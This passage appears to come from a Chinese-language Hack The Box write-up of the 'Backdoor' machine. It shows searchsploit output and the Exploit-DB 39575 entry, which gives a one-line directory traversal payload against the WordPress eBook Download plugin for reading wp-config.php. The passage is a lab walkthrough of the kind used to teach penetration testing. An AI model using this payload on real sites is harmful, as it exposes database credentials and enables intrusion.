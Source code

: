 Searchsploit 给了我们一些有用的东西:

![](img/9a65a73813d9264972d48c94872128b9.png)

搜索漏洞检查

让我们来看看:

```
┌──(root💀kali)-[~/htb/backdoor]
└─# searchsploit -m php/webapps/39575.txt
  Exploit: WordPress Plugin eBook Download 1.1 - Directory Traversal
      URL: https://www.exploit-db.com/exploits/39575
     Path: /usr/share/exploitdb/exploits/php/webapps/39575.txt
File Type: ASCII text

Copied to: /root/39575.txt

┌──(root💀kali)-[~/htb/backdoor]
└─# cat 39575.txt 
# Exploit Title: Wordpress eBook Download 1.1 | Directory Traversal
# Exploit Author: Wadeek
# Website Author: https://github.com/Wad-Deek
# Software Link: https://downloads.wordpress.org/plugin/ebook-download.zip
# Version: 1.1
# Tested on: Xampp on Windows7

[Version Disclosure]
======================================
http://localhost/wordpress/wp-content/plugins/ebook-download/readme.txt
======================================

[PoC]
======================================
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
======================================
```

# 利用插件

所以我们有简单的目录遍历和本地文件包含(LFI)漏洞。让我们试试上面给出的例子:
